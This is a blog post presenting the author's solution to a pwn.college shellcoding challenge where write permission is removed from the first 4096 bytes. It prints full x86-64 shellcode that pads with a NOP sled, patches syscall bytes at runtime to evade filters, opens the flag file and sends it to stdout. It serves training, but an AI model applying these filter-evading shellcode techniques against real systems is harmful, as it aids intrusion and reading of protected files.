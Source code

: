 +++
title = 'No Write Permissions in Shellcode Begin'
date = 2023-09-22T14:50:16-04:00
description = "In this post, I will explain how I bypassed no-write permissions in a simple shellcoding challenge"
draft = false
+++
A while ago i was solving this challenge from [pwn.college](https://pwn.college) in the `shellcoding` module, it's a pretty fun challenge to solve, where you need to think outside-of-the-box (a little).

This challenge remove write permissions in the first 4096 bytes of our `shellcode`, therefore we need to put 4096 bytes of garbage before we start the `shellcode`.

This sounds hard but luckily assembly makes it very easy for us to achieve this.

Here's a program i used to solve the challenge, note that it's exactly like the challenge i have shown at [[Writing Shellcode without Syscalls]], but this time the first 4096 bytes of the `shellcode` aren't written.
```nasm
.global _start
_start:
.intel_syntax noprefix
    .rept 4096
    nop
    .endr

    # prepare syscall
    mov byte ptr[rip+label], 0x0f
    mov byte ptr[rip+label+1], 0x05
    lea r9, [rip+label]

    # clear registers
    xor rbx, rbx
    xor rdx, rdx
    xor rsi, rsi
    xor rdi, rdi
    xor r10, r10

    # open flag file
    mov ebx, 0x67616c66
    shl rbx, 8
    mov bl, 0x2f
    push rbx
    mov rdi, rsp
    mov rax, 2
    call r9

label:
    .word 0x0000

    xor r9, r9
    # prepare next syscall
    mov byte ptr[rip+label2], 0x0f
    mov byte ptr[rip+label2+1], 0x05
    lea r9, [rip+label2]

    xor rsi, rsi
    xor r10, r10
    xor rdi, rdi
    xor rdx, rdx
    xor rbx, rbx
    # sendfile
    mov rdi,1
    mov rsi, rax
    mov r10, 100
    mov rax, 40
    call r9
label2:
    .word 0x0000

    xor r9, r9
    # prepare syscall
    mov byte ptr[rip+label3], 0x0f
    mov byte ptr[rip+label3+1], 0x05
    lea r9, [rip+label3]
    # exit
    xor rsi, rsi
    xor r10, r10
    xor rax, rax
    xor rdi, rdi
    mov rax, 60
    mov rdi, 5
    call r9

label3:
    .word 0x0000
```

We used the `.rept <value>` instruction and the `.endr` instruction which ends the repeat, basically like a loop and everything in-between will be repeated in the assembled program.

For example, the following code would write 4096 nops in our `shellcode`, resulting in a very long `shellcode` but effectively bypassing the required filters.
```nasm
.rept 4096
nop
.endr
```


